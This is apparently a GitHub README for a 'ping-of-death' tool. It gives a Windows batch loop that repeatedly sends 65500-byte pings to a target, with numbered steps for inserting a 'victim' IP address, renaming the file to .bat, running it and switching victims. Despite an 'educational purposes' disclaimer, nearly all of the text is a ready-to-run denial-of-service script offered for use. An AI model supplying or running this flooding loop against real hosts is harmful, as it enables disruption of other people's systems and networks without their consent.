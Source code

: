 # ping-of-death

## Warning I am not responsible for any damage done or accountable for the usage of this software! This is only for educational purposes.

### Download
 - click the PingOfDeath.zip file and download

### How to use: 

1.) open the dos.txt file it will read:
:loop
ping <IP Address> -l 65500 -w 1 -n 1
goto :loop

2.) rename <IP Address> with the ip address of the victim then save and exit the file

3.) rename the dos.txt file to dos.bat

4.) run the file

* to change victims simply rename the file to dos.txt and change the previous ip address to the next one and rename the file to: dos.bat
